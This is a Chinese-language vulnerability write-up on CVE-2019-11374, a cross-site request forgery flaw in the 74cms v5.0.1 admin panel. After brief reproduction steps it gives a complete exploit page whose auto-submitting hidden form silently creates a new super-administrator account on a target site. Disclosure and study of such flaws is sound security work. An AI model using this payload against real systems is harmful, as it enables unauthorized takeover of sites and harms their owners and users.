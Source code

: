 # 

# 74cms v5.0.1 后台跨站请求伪造漏洞 CVE-2019-11374

## 漏洞描述

在74CMS v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：/index.php?m=admin&c=admin&a=add
攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。

## 漏洞影响

```
74CMS v5.0.1
```

## 漏洞复现

首先我们登录后台页面，并添加管理员，然后添加信息，用burp_suite抓包

![QQ图片20190529155123.png](images/20190529207783.png)

当管理员登录后台后，点击攻击者发来的连接即可创建一个新的超级管理员账户

![QQ图片20190529155156.png](images/20190529179538.png)

利用exp如下：

```
<!DOCTYPE html>
<html>
  <head>
  <title> CSRF </title>
  <script type="text/javascript">
    function exec1(){
      document.getElementById('form1').submit();
    }
  </script>
  </head>
  <body onload="exec1();">
    <form id="form1" action="https://www.0dayhack.com/index.php?m=Admin&c=admin&a=add" method="POST">
      <input type="hidden" name="username" value="admin688" />
  <input type="hidden" name="email" value="111111111@qq.com" />
      <input type="hidden" name="password" value="admin688" />
      <input type="hidden" name="repassword" value="admin688" />  
  <input type="hidden" name="role_id" value="1" />
    </form>
  </body>
</html>
```


